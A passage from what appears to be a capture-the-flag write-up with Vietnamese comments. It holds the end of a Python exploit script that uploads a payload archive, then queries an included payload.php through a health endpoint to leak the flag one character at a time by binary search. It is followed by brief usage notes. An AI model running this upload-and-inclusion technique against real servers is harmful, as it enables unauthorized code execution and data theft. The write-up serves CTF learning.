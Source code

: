 ```
            
            if r_upload.status_code != 200 or r_upload.text.strip() != '"OK"':
                print(f"\n[!] loi khi tai len: Status {r_upload.status_code} - {r_upload.text}")
                print("[!] token het han roi cha oi")
                sys.exit()

            url_guess = f"{BASE_URL}/gateway/health/?module=/storage/{USER_ID}/payload.php?pos={POS_TO_GUESS}%26char={char_to_compare}"
            r_guess = s.get(url_guess, timeout=10)
            
            if r_guess.status_code == 200 and r_guess.text.strip() == '"OK"':
                low = mid + 1
            else:
                high = mid - 1
                
        except requests.exceptions.RequestException as e:
            time.sleep(2)
            continue

    if low > 126:
         print(f"\n[!] khong tim hay ASC2 phu hop {POS_TO_GUESS}.")
         print(f"[+] Flag: {FLAG}")
         sys.exit()
         
    found_char = chr(low)
    
    FLAG += found_char
    print(f"\r  [+] vi tri: {POS_TO_GUESS}: '{found_char}'   ")
    print(f"  [*] Flag hien tai: {FLAG}")
    
    if found_char == '}':
        print("\n" + "="*40)
        print(f"[+] Xong 🚩")
        print(f"[+] FLAG: {FLAG}")
        print("="*40)
        sys.exit()
        
    POS_TO_GUESS += 1
```

This script will try to upload our zip file first each time then try to access the path /gateway/health/?module=/storage/{USER_ID} if it returns 200 it will accept that character

Remember you need to update TOKEN and USER_ID of this script python

problem solved: 

<img width="1051" height="208" alt="image" src="https://github.com/user-attachments/assets/2b717ed5-1471-4434-a9aa-7ca1dc380426" />













